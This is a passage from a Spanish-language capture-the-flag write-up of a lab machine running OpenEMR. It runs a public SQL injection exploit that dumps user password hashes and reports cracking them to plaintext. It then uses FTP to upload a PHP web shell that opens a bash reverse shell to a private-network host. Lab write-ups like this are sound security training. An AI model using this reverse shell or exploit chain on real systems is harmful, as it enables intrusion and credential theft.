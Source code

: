 El exploit en python es un script que dumpea los usuarios y el hash de las contraseñas.

```bash
python3 49742.py

   ____                   ________  _______     __ __   ___ ____
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ /
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/
    /_/
    ____  ___           __   _____ ____    __    _
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

Las pasamos por crackstation y nos da las contraseñas en texto claro.

![](https://eidd3.github.io/assets/img/Healthcare1/Untitled1.png)


| Username     | Password	   |
|:-------------|:------------------|
| admin	       | ackbar		   |
| medical      | medical	   |


Las 2 cuentas sirven para acceder a OpenEMR, pero ingreso como admin.

Y en el servicio FTP solamente sirve medical:medical. Si nos dirigimos a /var/www/html/openemr que es donde esta la página web montada, podemos tratar de subir un archivo php malicioso y entablar una reverse shell.

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.24/443 0>&1'");?>
```

```bash
ftp> pwd
257 "/var/www/html/openemr" is the current directory
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful
150 Opening BINARY mode data connection for shell.php
226 Transfer complete
74 bytes sent in 0.00 secs (830.6393 kB/s)
```
